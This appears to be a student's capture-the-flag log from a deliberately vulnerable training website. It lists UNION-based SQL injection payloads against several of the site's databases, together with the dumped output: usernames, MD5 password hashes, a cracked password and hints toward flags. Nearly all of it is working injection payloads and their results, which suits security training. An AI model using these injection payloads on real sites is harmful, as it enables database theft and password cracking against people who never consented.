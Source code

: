 ## Member_Brute_Force.db_default => 01_login
1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default
ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin


## Member_Sql_Injection.users => 07_members
### first_name, last_name
1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users
ID: 1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users 
Title: me
Url : one

ID: 1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users 
Title: me
Url : two

ID: 1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users 
Title: me
Url : three

ID: 1 and 1=1 UNION SELECT first_name, last_name from Member_Sql_Injection.users 
Title: GetThe
Url : Flag

###  user_id, countersign
1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users
ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: 2b3366bcfd44f540e630d4dc2b9b06d9
Url : 1

ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: 60e9032c586fb422e2c16dee6286cf10
Url : 2

ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: e083b24a01c483437bcf4a9eea7c1b4d
Url : 3

ID: 1 and 1=1 UNION SELECT user_id, countersign from Member_Sql_Injection.users 
Title: 5ff9d0165b4f92b14994e5c685cdce28
Url : 5

### town, country
1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users
ID: 1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users 
Title: France
Url : Paris 

ID: 1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users 
Title: Finlande
Url : Helsinki

ID: 1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users 
Title: Irlande
Url : Dublin

ID: 1 and 1=1 UNION SELECT town, country from Member_Sql_Injection.users 
Title: 42
Url : 42

### planet, Commentaire
1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users
ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Je pense, donc je suis
Url : EARTH

ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Aamu on iltaa viisaampi.
Url : Earth

ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Dublin is a city of stories and secrets.
Url : Earth

ID: 1 and 1=1 UNION SELECT planet, Commentaire from Member_Sql_Injection.users 
Title: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Url : 42



#### for user id 5, decrypt countersign with md5 gives:
FortyTwo


## Member_guestbook.guestbook => ?? 04_feedback ??
### id_comment, comment
1 and 1=1 UNION SELECT id_comment, comment from Member_guestbook.guestbook
ID: 1 and 1=1 UNION SELECT id_comment, comment from Member_guestbook.guestbook 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT id_comment, comment from Member_guestbook.guestbook 
Title: This is the best site EVER
Url : 1

### name, comment
1 and 1=1 UNION SELECT name, comment from Member_guestbook.guestbook
ID: 1 and 1=1 UNION SELECT name, comment from Member_guestbook.guestbook 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT name, comment from Member_guestbook.guestbook 
Title: This is the best site EVER
Url : wil


## Member_images.list_images => 02_serch_img
### id, comment
1 and 1=1 UNION SELECT id, comment from Member_images.list_images

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: one
Surname : me

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 1
Surname : An image about the NSA !

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 2
Surname : There is a number..

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 3
Surname : Google it !

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 4
Surname : Earth!

ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

### id, comment
1 and 1=1 UNION SELECT url, title from Member_images.list_images
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: one
Surname : me

ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: https://fr.wikipedia.org/wiki/Programme_
Surname : Nsa

ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: https://fr.wikipedia.org/wiki/Fichier:42
Surname : 42 !

ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: https://fr.wikipedia.org/wiki/Logo_de_Go
Surname : Google

ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: https://en.wikipedia.org/wiki/Earth#/med
Surname : Earth

ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?

## Member_survey.vote_dbs
### id_vote, vote
1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs
ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: one
Surname : me

ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: 2
Surname : 4213.2412109375

ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: 3
Surname : 5.111113548278809

ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: 4
Surname : 8.388899803161621

ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: 5
Surname : 9.093852996826172

ID: 1 and 1=1 UNION SELECT id_vote, vote from Member_survey.vote_dbs 
First name: 6
Surname : 6.955157279968262


### nb_vote, subject
1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs
ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: one
Surname : me

ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: 4261
Surname : wil

ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: 18
Surname : alex

ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: 18
Surname : Thor

ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: 667
Surname : Ben

ID: 1 and 1=1 UNION SELECT nb_vote, subject from Member_survey.vote_dbs 
First name: 70
Surname : ol
